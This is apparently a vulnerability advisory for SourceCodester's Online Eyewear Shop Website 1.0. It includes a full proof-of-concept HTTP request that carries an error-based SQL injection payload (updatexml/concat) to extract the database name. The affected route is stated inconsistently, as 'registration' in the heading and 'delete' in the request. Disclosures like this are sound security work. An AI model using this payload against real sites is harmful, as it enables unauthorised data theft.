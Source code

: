 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=registration

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=registration. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=delete HTTP/1.1
Host: localhost
Content-Length: 53
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/oews/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close

id=1 and updatexml(1,concat(0x7e,(database())),3)-- q
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-03-18 at 13 30 53@2x](https://github.com/user-attachments/assets/581f0a52-a3b1-4b3a-9101-c0004c591db2)

## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-03-18 at 13 31 34@2x](https://github.com/user-attachments/assets/80d82932-c85a-4a25-9922-28ad09f7f866)


